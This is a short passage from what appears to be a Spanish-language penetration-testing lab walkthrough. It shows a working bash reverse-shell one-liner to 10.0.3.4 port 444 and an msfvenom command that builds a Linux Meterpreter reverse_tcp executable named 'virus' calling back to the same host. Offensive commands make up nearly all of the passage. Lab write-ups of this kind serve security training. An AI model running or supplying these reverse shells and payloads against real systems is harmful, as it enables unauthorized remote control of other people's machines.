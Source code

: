     ![image.png](./imagenes/image%2059.png)
    

- En la conexión del puerto 443 escribimos lo siguiente:
    
    `bash -c "sh -i >& /dev/tcp/10.0.3.4/444 0>&1"`
    
    ![image.png](./imagenes/image%2060.png)
    
    ![image.png](./imagenes/image%2061.png)
    
    Cerramos el terminal de la conexión 443 que no la vamos a necesitar.
    
- Abrimos otro terminal , nos movemos al escritorio y nos creamos un payload con msfvemon.
    
    Lo que vamos ha hacer es crear un ejecutable que directamente nos de una sesión de meterpreter en Metasploit.
    
    ```bash
    msfvenom -p linux/x86/meterpreter/reverse_tcp LHOST=10.0.3.4 LPORT=4444 -f elf -b '\x00\x0a\x0d' -o virus
    ```
    
    ![image.png](./imagenes/image%2062.png)
    